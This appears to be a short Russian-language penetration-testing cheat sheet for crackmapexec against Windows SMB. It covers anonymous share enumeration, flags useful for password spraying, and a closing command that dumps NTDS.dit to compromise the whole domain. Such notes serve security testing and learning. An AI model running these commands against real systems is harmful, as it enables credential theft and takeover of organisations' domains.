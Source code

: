 Утилита, позволяющая выполнить проверку на доступность подключения к пользователям на windows машине.
## SMB
Прочитать доступные службы:
```
crackmapexec smb {IP} -u '' -p '' --shares
```
`-u` - username
`-p` - password
`-L` - посмотреть доступные модули
`-M {name}` - включить модуль
>вывод попадает в /tmp/{module name}/{IP}.json
>spider_plus - лист файлов и директорий

`--share {name}` - узнать конкретную службу, например DOCS
`--users` -  перечислить домены с юзерами

`--continue-on-success` - отвечает за то, чтобы процесс не прервался после нахождения валидной пары. Полезный флаг для **Password Spraying** атаки.
`--local-auth` - отвечает за прохождение аутентификации локально (не доменная учетная запись).
`--no-bruteforce` - отвечает за установление соответствия между пользователем и паролем, таким образом можно легко найти валидные учетные данные из большого списка, когда одному пользователю принадлежит только один определенный пароль.

### Завершение атаки, дамб NTDS
Дамп NTDS.dit, тем самым полностью скомпрометировать домен:
```
crackmapexec smb {IP} -u {User} -p {pass} --ntds 
```